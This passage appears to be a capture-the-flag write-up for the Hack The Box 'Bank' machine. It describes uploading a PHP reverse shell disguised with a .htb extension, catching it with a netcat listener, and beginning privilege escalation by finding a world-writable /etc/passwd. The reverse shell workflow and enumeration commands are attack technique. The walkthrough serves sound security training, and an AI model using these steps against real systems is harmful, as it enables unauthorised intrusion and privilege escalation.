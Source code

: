 We can try to add a php file that will open a reverse shell and give it a `.htb` extension. Earlier, when enumerating, we saw that there is an 'uploads' directory. We can hope that our uploaded file will be available there.

I usually use [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) php reverse shell. Lines 49 and 50 need to be modified with the correct IP address and port on which we will be listening for a connection. The IP address can be found in the Hack the Box 'Access' page, while the port can be anything. Ports below 1024 require root privileges, so I picked port 4444. I saved this file as `letstrythis.htb` and uploaded it with the form. The upload was successful.

Before navigating to [http://bank.htb/uploads/letstrythis.htb](), I started a listener on port 4444 in my Kali machine with netcat:

```bash
$ nc -l -p 4444
```

Now that we are ready to receive an incoming connection from the server, we can navigate to [http://bank.htb/uploads/letstrythis.htb]() with the browser. This gives us a shell! 

```bash
$ nc -l -p 4444

Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 18:02:11 up  6:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

We are logged in as `www-data`. We need to find the `user.txt` to get the user flag. This is usually in one of the directories inside `/home`. In this case there is only `/home/chris`, and the file `user.txt` is in there.

## Privilege escalation

Now we need to find some vulnerability to exploit in order to gain root privileges. A nice check-list for what to try is [this](https://academy.hackthebox.eu/course/preview/linux-privilege-escalation/introduction-to-linux-privilege-escalation) one. In this case, looking for writeable files is interesting:

```bash
$ find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

/proc
/tmp/socat
/etc/passwd
/sys/kernel/security/apparmor/policy/.remove
/sys/kernel/security/apparmor/policy/.replace
/sys/kernel/security/apparmor/policy/.load
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.ns_name
/sys/kernel/security/apparmor/.ns_level
/sys/kernel/security/apparmor/.ns_stacked
/sys/kernel/security/apparmor/.stacked
/sys/kernel/security/apparmor/.access
```
